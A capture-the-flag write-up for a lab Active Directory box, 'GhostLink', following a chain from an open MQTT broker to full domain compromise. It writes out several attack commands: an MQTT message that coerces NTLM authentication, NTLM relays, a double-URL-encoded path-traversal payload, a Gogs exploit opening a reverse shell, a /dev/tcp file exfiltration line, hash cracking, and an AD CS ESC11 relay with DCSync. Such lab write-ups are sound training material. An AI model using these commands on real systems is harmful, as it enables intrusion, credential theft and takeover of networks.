Ghostlink Write-up

GhostLink is a multi-stage Active Directory box that begins not with a typical web or SMB vector, but with an unexpectedly open MQTT broker on port 1883; enumerating it (subscribing to #) leaks internal subdomains, and abusing its open publish access allows injecting a modified telemetry message that coerces an NTLM authentication back to the attacker, captured via Responder and relayed over HTTP (using ghostsurf) to bypass login on gpz-op26-secure.ghostlink.htb. From there, a double-URL-encoded LFI in the site's download endpoint is used to pull NTUSER.DAT for user svc_canary, and registry analysis via RegRipper surfaces a recently accessed db.zip, recovered through its .lnk shortcut and the same LFI; the archive contains a KeePass database and key file, which cracks open to reveal credentials for vroth. Those credentials grant access to a Gogs instance vulnerable to CVE-2025-8110, yielding code execution and access to Gogs' SQLite database, which is exfiltrated and cracked to recover credentials for nvirelli valid on the Linux host (user flag) and via SMB on the domain controller. Pivoting internally with ligolo-ng, certipy reveals the certificate authority is vulnerable to ESC11 (unenforced ICPR encryption), and an NTLM relay to the CA's RPC/ICPR endpoint triggered by coercing the DC's machine account yields a certificate for DC01$, which is converted to an NTLM hash via certipy auth, enabling a DCSync for the Administrator hash and full domain compromise via WinRM.
Reconnaissance
Starting Nmap 7.99 ( https://nmap.org ) at 2026-07-08 18:05 -0700
Nmap scan report for dc01.ghostlink.htb (10.129.50.13)
Host is up (0.069s latency).
Not shown: 65512 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Ghost Protocol Zero
| http-methods:
|_ Potentially risky methods: TRACE
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2026-07-09 09:08:25Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc01.ghostlink.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.ghostlink.htb
| Not valid before: 2026-03-03T16:53:53
|_Not valid after: 2027-03-03T16:53:53
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
1883/tcp open mqtt
| mqtt-subscribe:
| Topics and their most recent payloads:
| $SYS/brokers/client_status/mqttui-a397b0d7: {"status":"offline", "username":"(null)","ts":1783588162207,"reason_code":"0","client_id":"mqttui-a397b0d7","IPv4":"127.0.0.1"}
| $SYS/brokers/client_status/mqttui-d48cc9b5: {"status":"offline", "username":"(null)","ts":1783588164273,"reason_code":"0","client_id":"mqttui-d48cc9b5","IPv4":"127.0.0.1"}
|_ $SYS/brokers/client_status/mqttui-736f7bea: {"status":"online", "username":"(null)", "ts":1783588166348,"proto_name":"MQTT","keepalive":60,"return_code":"0","proto_ver":4,"client_id":"mqttui-736f7bea","clean_start":1, "IPv4":"127.0.0.1"}
2179/tcp open vmrdp?
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.ghostlink.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.ghostlink.htb
| Not valid before: 2026-03-03T16:53:53
|_Not valid after: 2027-03-03T16:53:53
|_ssl-date: TLS randomness does not represent time
3269/tcp open ssl/ldap Microsoft Windows Active Directory LDAP (Domain: ghostlink.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.ghostlink.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc01.ghostlink.htb
| Not valid before: 2026-03-03T16:53:53
|_Not valid after: 2027-03-03T16:53:53
|_ssl-date: TLS randomness does not represent time
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open mc-nmf .NET Message Framing
49664/tcp open msrpc Microsoft Windows RPC
49674/tcp open msrpc Microsoft Windows RPC
49675/tcp open msrpc Microsoft Windows RPC
49685/tcp open msrpc Microsoft Windows RPC
49686/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49908/tcp open msrpc Microsoft Windows RPC
49924/tcp open msrpc Microsoft Windows RPC
51034/tcp open msrpc Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled and required
| smb2-time:
| date: 2026-07-09T09:09:22
|_ start_date: N/A
|_clock-skew: 7h59m59s
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 272.06 seconds
Most of this is a standard-looking domain controller Kerberos, LDAP, SMB with signing enforced. The port that stands out is 1883 (MQTT). MQTT is a lightweight pub/sub messaging protocol commonly used for IoT devices: clients "publish" messages to a topic, and other clients "subscribe" to receive them. We can interact with the broker using mosquitto_pub and mosquitto_sub.
Enumerating MQTT
To see what topics and messages are flowing through the broker, we use mosquitto_sub. This requires a client ID, which we can pull straight from the nmap output the entry marked "status":"online" gives us a live client to piggyback on:
$SYS/brokers/client_status/mqttui-736f7bea: {"status":"online", "username":"(null)", "ts":1783588166348,"proto_name":"MQTT","keepalive":60,"return_code":"0","proto_ver":4,"client_id":"mqttui-736f7bea","clean_start":1, "IPv4":"127.0.0.1"}
To subscribe to all topics, we use the wildcard #:
mosquitto_sub -h DC01.ghostlink.htb -p 1883 -i mqttui-736f7bea -t '#' -V mqttv5 -v

A few interesting things show up in the traffic new subdomains: energy-grid.ghostlink.htb, gpz-op26-toolkits.ghostlink.htb, and gpz-op26-secure.ghostlink.htb. The latter two are the most promising:
gpz-op26-toolkits.ghostlink.htba Gogs (self-hosted Git) instance, login required.gpz-op26-secure.ghostlink.htbanother login-gated site.
Testing MQTT Publish Access
Next question: can we publish to this broker, not just listen? On one terminal, keep the subscriber running:
mosquitto_sub -h DC01.ghostlink.htb -p 1883 -i mqttui-736f7bea -t '#' -V mqttv5 -v
On a second terminal, try publishing a test message:
mosquitto_pub -h DC01.ghostlink.htb -p 1883 -r -t "this/is/a/test" -m 'hello'

The message shows up on the subscriber side publish access is open. This opens the door to a more interesting idea: if we can inject our own IP into one of the legitimate topics, maybe we can trigger an outbound connection back to us and capture an NTLM hash, which we could then try relaying to gpz-op26-secure.ghostlink.htb.
Capturing a Hash via MQTT
With Responder listening, we publish a modified telemetry message same structure as the legitimate healthcheck topic, but with our own IP swapped into the url field:
mosquitto_pub -h DC01.ghostlink.htb -p 1883 -r -t "GhostProtocolZero/systems/node/secureshare/healthcheck" -m '{"timestamp":"2026-09-07-00:36:11","node":"node-6","telemetry":{"healthy":true,"url":"http://$IP/healthcheck","lastCheckSecAgo":24,"responseCode":"200","ip":"172.16.20.10"}}'
This gets a hit on Responder though the hash didn't crack with a standard wordlist.

Relaying to gpz-op26-secure.ghostlink.htb
Since cracking didn't pan out, the next move is relaying the captured auth directly. For this I used ghostsurf, a newer HTTP NTLM relay tool that's more stable than ntlmrelayx for this specific use case. (Setup is covered in the repo's README, so I won't repeat it here.)
sudo ./ghostsurf -t http://gpz-op26-secure.ghostlink.htb/ -k -r
On the first run you'll likely hit this error:
[-] (HTTP): Exception while Negotiating NTLM with http://gpz-op26-secure.ghostlink.htb: "'NTLMRelayxConfig' object has no attribute 'remove_target'"
Fix: edit ghostsurf/lib/relay/utils/config.py and add remove_target = False on line 52, then re-run.

Once the relay lands, clicking the resulting link bypasses authentication entirely.

Finding LFI via Upload/Download Endpoints
The site's upload function hung consistently for me, so I switched to Burp Suite routed through the relay's SOCKS proxy (again, not covering that setup here plenty of guides exist). Capturing an upload attempt revealed an /api/upload endpoint.

That raised an obvious question: if there's an upload endpoint, is there a matching /api/download/ for retrieval and if so, is it vulnerable to path traversal / LFI? Fuzzing with SecLists/Fuzzing/LFI/LFI-Windows-adeadfed.txt via Burp Intruder (Sniper attack) came up empty at first but double URL-encoding the payloads produced a flood of hits.


LFI confirmed. We also now know a valid username on the box (svc_canary) from the responder, so the next step is pulling NTUSER.DAT for that user to mine it for artifacts.
Target path: //./C:/Users/svc_canary/ntuser.dat Double URL-encoded: %25%32%66%25%32%66%25%32%65%25%32%66%25%34%33%25%33%61%25%32%66%25%35%35%25%37%33%25%36%35%25%37%32%25%37%33%25%32%66%25%37%33%25%37%36%25%36%33%25%35%66%25%36%33%25%36%31%25%36%65%25%36%31%25%37%32%25%37%39%25%32%66%25%36%65%25%37%34%25%37%35%25%37%33%25%36%35%25%37%32%25%32%65%25%36%34%25%36%31%25%37%34
Retrieve it directly via URL:
http://gpz-op26-secure.ghostlink.htb/api/download/%25%32%66%25%32%66%25%32%65%25%32%66%25%34%33%25%33%61%25%32%66%25%35%35%25%37%33%25%36%35%25%37%32%25%37%33%25%32%66%25%37%33%25%37%36%25%36%33%25%35%66%25%36%33%25%36%31%25%36%65%25%36%31%25%37%32%25%37%39%25%32%66%25%36%65%25%37%34%25%37%35%25%37%33%25%36%35%25%37%32%25%32%65%25%36%34%25%36%31%25%37%34
The downloaded file will be named __._C__Users_svc_canary_ntuser.dat.enc just rename it to ntuser.dat. This registry hive holds recent documents, executed programs, device access history, and persistence mechanisms, so it's worth pulling apart with RegRipper.
Note: pass the full path to ntuser.dat, or RegRipper will error out.
regripper -r ~/htb/ntuser.dat -p recentdocs

Following the db.zip Trail
The RegRipper output shows a recently opened file: db.zip. Windows creates a .lnk shortcut for recently accessed files, so we can pull that shortcut to recover the full original path:
Target path: //./C:/Users/svc_canary/AppData/Roaming/Microsoft/Windows/Recent/db.zip.lnk Double URL-encoded: %25%32%66%25%32%66%25%32%65%25%32%66%25%34%33%25%33%61%25%32%66%25%35%35%25%37%33%25%36%35%25%37%32%25%37%33%25%32%66%25%37%33%25%37%36%25%36%33%25%35%66%25%36%33%25%36%31%25%36%65%25%36%31%25%37%32%25%37%39%25%32%66%25%34%31%25%37%30%25%37%30%25%34%34%25%36%31%25%37%34%25%36%31%25%32%66%25%35%32%25%36%66%25%36%31%25%36%64%25%36%39%25%36%65%25%36%37%25%32%66%25%34%64%25%36%39%25%36%33%25%37%32%25%36%66%25%37%33%25%36%66%25%36%36%25%37%34%25%32%66%25%35%37%25%36%39%25%36%65%25%36%34%25%36%66%25%37%37%25%37%33%25%32%66%25%35%32%25%36%35%25%36%33%25%36%35%25%36%65%25%37%34%25%32%66%25%36%34%25%36%32%25%32%65%25%36%39%25%37%30%25%32%65%25%36%63%25%36%65%25%36%62
Download and rename it to db.zip.lnk. Running strings against it reveals the full original path:
OPERAT~1 MANAGE~1 db.zip C:\Users\svc_canary\Documents\Operations\Management\db.zip gpz-op26-secure 1SPS
Cracking the KeePass Database
With the full path known, db.zip can be downloaded through the same LFI. Extracting it gives two files: db.kdbx and a key file (originally hidden as .key.keyx I renamed it to remove the leading dot so it's visible).
With the key file in hand, we can open db.kdbx. Inside, under Toolkits Repository, there's a stored credential for Vesper Roth:
vroth:mOo03jpsqx8JQYMBwvFP
(There's also a PDF sitting in the recycle bin that may be useful for a later step.)
Gogs RCE (CVE-2025-8110)
With vroth's credentials, we can log into the Gogs instance at http://gpz-op26-toolkits.ghostlink.htb/. I couldn't pin down the exact Gogs version from the UI, so I tried known RCEs against it CVE-2025-8110 worked: zAbuQasem/gogs-CVE-2025-8110.
The exploit script needed a couple of tweaks: comment out the registration function calls (around line 213), and on lines 209-210 hardcode the username/password to vroth's credentials.
python3 CVE-2025-8110.py -u http://gpz-op26-toolkits.ghostlink.htb/ -lh <ATTACKER_IP> -lp 4444

Extracting and Cracking the Gogs Database
Gogs stores its data in a SQLite database at /opt/gogs/data/gogs.db. Exfiltrate it via a simple netcat transfer:
# nc listener to recieve the file nc -lvnp 3333 > gogs.db # to send the gogs.db cat gogs.db > /dev/tcp/10.10.14.86/3333
Then dig through it with sqlite3:
sqlite3 gogs.db # list tables .tables # extract everything from the user table select * from user; # extract username, salt and password from user table select name, salt, passwd from user;

The user nvirelli stands out, since that's also a valid account on the Linux box. Gogs hashes need to be converted into a Hashcat-compatible format before cracking GogsToHashcat handles that conversion:
python3 GogsToHashcat.py -o hash DW3YdxPy25 8d9b3a01c3a0260b39db011aed1dbf239b8b1b28af6141f28aa01d3b3ab8ffd4408bc5b9065ff957e716375a7bec1755d3e8
hashcat -m 10900 hash ../../SecLists/Passwords/Leaked-Databases/rockyou.txt
(Remember to pass --show afterward to print the cracked result.)
Password recovered: u47YUclrDiwWxBheaSzI this authenticates as nvirelli.
su nvirelli

From here, the user flag is accessible.
The same credentials also work against SMB on the DC:

Pivoting Internally
With valid domain credentials in hand, pivot into the internal network using ligolo-ng (setup not covered here standard ligolo-ng agent/proxy workflow).
AD CS Enumeration
Once the tunnel is up, enumerate certificate services with certipy:
certipy find -u 'nvirelli' -p 'u47YUclrDiwWxBheaSzI' -dc-ip <DC_IP> -vulnerable -stdout -debug
CA Name : ghostlink-GPZ-OP26-SECURE-CA
DNS Name : gpz-op26-secure.ghostlink.htb
Certificate Subject : CN=ghostlink-GPZ-OP26-SECURE-CA, DC=ghostlink, DC=htb
Certificate Serial Number : 3F4302F3D68A6AAE4B792DB93F31CCE5
Certificate Validity Start : 2026-03-03 16:52:14+00:00
Certificate Validity End : 2126-03-03 17:02:12+00:00
Web Enrollment
HTTP
Enabled : True
HTTPS
Enabled : False
User Specified SAN : Disabled
Request Disposition : Issue
Enforce Encryption for Requests : Disabled
Active Policy : CertificateAuthority_MicrosoftDefault.Policy
Permissions
Owner : GHOSTLINK.HTB\Administrators
Access Rights
ManageCa : GHOSTLINK.HTB\Administrators
GHOSTLINK.HTB\Domain Admins
GHOSTLINK.HTB\Enterprise Admins
ManageCertificates : GHOSTLINK.HTB\Administrators
GHOSTLINK.HTB\Domain Admins
GHOSTLINK.HTB\Enterprise Admins
Enroll : GHOSTLINK.HTB\Authenticated Users
[!] Vulnerabilities
ESC8 : Web Enrollment is enabled over HTTP.
ESC11 : Encryption is not enforced for ICPR (RPC) requests.
Certificate Templates : [!] Could not find any certificate templates
The CA is vulnerable to ESC11 (unencrypted ICPR/RPC requests to the CA), which I exploited following this ESC11 guide.
Exploiting ESC11 via NTLM Relay
Start the ICPR relay listener:
sudo /home/pixelrazer/venv/bin/python3 /home/pixelrazer/venv/bin/ntlmrelayx.py -t rpc://172.16.20.10 -rpc-mode ICPR -icpr-ca-name 'ghostlink-GPZ-OP26-SECURE-CA' -smb2support --template DomainController
With the relay listening, trigger authentication from the DC using NetExec's coerce module:
netexec smb dc01.ghostlink.htb -u nvirelli -p u47YUclrDiwWxBheaSzI -M coerce_plus -o LISTENER=<ATTACKER_IP>
A successful run looks like this:

From Certificate to Domain Admin
The relay produces DC01.pfx a certificate for the DC's machine account. Use certipy auth to convert it into the account's NTLM hash:
certipy auth -pfx DC01.pfx -dc-ip 10.129.52.14

With DC01$'s NT hash, run secretsdump.py to dump the domain's secrets including the Administrator hash:
secretsdump.py 'ghostlink.htb/dc01$@ghostlink.htb' -hashes aad3b435b51404eeaad3b435b51404ee:49a738167e09e887b884a747be67c411
With the Administrator hash in hand, WinRM access completes the box.
